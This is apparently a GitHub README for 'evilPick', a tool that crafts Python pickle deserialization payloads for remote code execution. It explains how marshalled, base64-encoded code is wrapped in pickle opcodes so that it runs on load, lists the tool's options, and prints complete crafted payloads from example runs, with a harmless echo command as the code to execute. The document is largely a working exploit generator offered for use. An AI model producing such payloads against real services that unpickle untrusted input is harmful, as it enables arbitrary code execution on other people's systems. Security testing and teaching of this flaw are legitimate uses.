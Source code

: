 # evilPick
An Exploit Crafter to achieve Pickle Deserialization Remote Code Execution ,
Just provide the wanted to execute code and you're on the go.

It aims to automate in a simple way Exploit Crafting from python2.7 code files.
#### Know How
The main part of the exploit is written in  pickle machine language in order to invoke, on deserialization, the code provided by the user.

In particular the passed code is serialized with Marshall library, base64 encoded and put into the pickle machine code which
when deserialized will do this :
- base64 decode the payload 
- marshal load the payload (in order to deserialize the code)
- statically build a function, inject the payload code in it
- call that function

## options 
- -f --foo  file_name.py  
craft an exploit that, on deserialization, will execute the given python2.7 code   
- -e --encode base64/hex 
encode the crafted exploit in base64 or hex 
- -s --file  new_file
the crafted exploit is then saved in a file
- -d --dynamic
dynamically write your python code and hit CTRL-C in a new line to end the code


## Examples
example.py code :
```python
import os
os.system("echo Hello World")
```
running evilPick passing the example.py file :
```sh
$ python evilPick.py --foo example.py 
___________________________________________________________
[^] Do you want to encode it? ( base64 or hex,leave for unicode) :        
[*] Crafted Evil Packet: 

ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'YwAAAAABAAAAAgAAAEMAAABzHQAAAGQBAGQAAGwAAH0AAHwAAGoBAGQCAIMBAAFkAABTKAMAAABOaf////9zEAAAAGVjaG8gSGVsbG8gV29ybGQoAgAAAHQCAAAAb3N0BgAAAHN5c3RlbSgBAAAAUgAAAAAoAAAAACgAAAAAcwgAAAA8c3RyaW5nPnQDAAAAZm9vAQAAAHMEAAAAAAEMAQ=='
tRtRc__builtin__
globals
(tRS''
tR(tR.

___________________________________________________________
[^] Do you want to save it? (y/n, leave to skip):  y
[^] Insert exploit name: example_exploit
[*] Writing it in example_exploit

__________________________Job_Done_________________________
```
running evilPick in dynamic mode with encode base64 option :
```sh
$ python evilPick.py -d -e base64 
___________________________________________________________
[*] Write code till SIGINT, have fun!

|import os
|os.system("echo Hello World!")
|^C

___________________________________________________________
[*] Crafted Evil Packet: 

Y3R5cGVzCkZ1bmN0aW9uVHlwZQooY21hcnNoYWwKbG9hZHMKKGNiYXNlNjQKYjY0ZGVjb2RlCihTJ1l3QUFBQUFCQUFBQUFnQUFBRU1BQUFCekhRQUFBR1FCQUdRQUFHd0FBSDBBQUh3QUFHb0JBR1FDQUlNQkFBRmtBQUJUS0FNQUFBQk9hZi8vLy85ekVRQUFBR1ZqYUc4Z1NHVnNiRzhnVjI5eWJHUWhLQUlBQUFCMEFnQUFBRzl6ZEFZQUFBQnplWE4wWlcwb0FRQUFBRklBQUFBQUtBQUFBQUFvQUFBQUFITUlBQUFBUEhOMGNtbHVaejUwQXdBQUFHWnZid0VBQUFCekJBQUFBQUFCREFFPScKdFJ0UmNfX2J1aWx0aW5fXwpnbG9iYWxzCih0UlMnJwp0Uih0Ui4=

___________________________________________________________
[^] Do you want to save it? (y/n, leave to skip):  n
```
running evilPick in quick mode providing : example.py (source code), encode schema base64 and destination file 
```sh
python evilPick.py -f example.py -e base64 -s new_exploit
___________________________________________________________
[*] Crafted Evil Packet: 

Y3R5cGVzCkZ1bmN0aW9uVHlwZQooY21hcnNoYWwKbG9hZHMKKGNiYXNlNjQKYjY0ZGVjb2RlCihTJ1l3QUFBQUFCQUFBQUFnQUFBRU1BQUFCekhRQUFBR1FCQUdRQUFHd0FBSDBBQUh3QUFHb0JBR1FDQUlNQkFBRmtBQUJUS0FNQUFBQk9hZi8vLy85ekVBQUFBR1ZqYUc4Z1NHVnNiRzhnVjI5eWJHUW9BZ0FBQUhRQ0FBQUFiM04wQmdBQUFITjVjM1JsYlNnQkFBQUFVZ0FBQUFBb0FBQUFBQ2dBQUFBQWN3Z0FBQUE4YzNSeWFXNW5QblFEQUFBQVptOXZBUUFBQUhNRUFBQUFBQUVNQVE9PScKdFJ0UmNfX2J1aWx0aW5fXwpnbG9iYWxzCih0UlMnJwp0Uih0Ui4=

___________________________________________________________
[*] Writing it in new_exploit

__________________________Job_Done_________________________
```

# Author
Lacerenza Francesco - Systems and Networks Security 
twitter: [@lacerenza_fra](https://twitter.com/lacerenza_fra)
linkedin: [lacerenzafrancesco](https://www.linkedin.com/in/francesco-lacerenza/)
